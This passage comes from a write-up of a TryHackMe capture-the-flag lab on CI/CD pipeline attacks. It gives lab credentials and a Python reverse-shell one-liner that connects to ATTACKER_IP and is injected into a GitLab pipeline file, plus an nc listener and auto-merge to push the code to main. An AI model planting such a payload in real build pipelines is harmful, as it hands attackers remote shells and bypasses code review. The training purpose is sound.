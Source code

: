 Now let's configure it to work for the `jenkins` machine

![Alt Text](/assets/images/CICDImgs/Pasted image 20250227234415.png)

Now that we have a shell let's go back to mother and see what we need to do to get the flag

![Alt Text](/assets/images/CICDImgs/Pasted image 20250227234813.png)

Simply follow the steps that mother has for us...

![Alt Text](/assets/images/CICDImgs/Pasted image 20250227234719.png)


![Alt Text](/assets/images/CICDImgs/Pasted image 20250227234648.png)

Perfect our file is set up and all we have to do is tell the mother to verify that we have complete the task to get our flag: 

![Alt Text](/assets/images/CICDImgs/Pasted image 20250227234845.png)

We have the flag let's move on.

![Alt Text](/assets/images/CICDImgs/Pasted image 20250304210446.png)

```
VPN
Token-based authentication
THM{1769f776-e03c-40b6-b2eb-b298297c15cc}
```
## Task 8: Securing the Build Pipeline
Now we have to login to gitlab with a different account `anatacker:Password1@`

![Alt Text](/assets/images/CICDImgs/Pasted image 20250227235812.png)


Navigate to: http://gitlab.tryhackme.loc/ash/approval-test

Edit the `.github-ci.yml` file to add our script to download our reverse shell again. 
```bash
/usr/bin/python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("ATTACKER_IP",8082)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
```

![Alt Text](/assets/images/CICDImgs/Pasted image 20250228000942.png)

Open a new `nc` listener.

![Alt Text](/assets/images/CICDImgs/Pasted image 20250228001046.png)

Commit your changes and create a merge request. Then set the merge request to auto-merge. This will immediately add the code to main on successful running of the pipeline 

![Alt Text](/assets/images/CICDImgs/Pasted image 20250228000152.png)
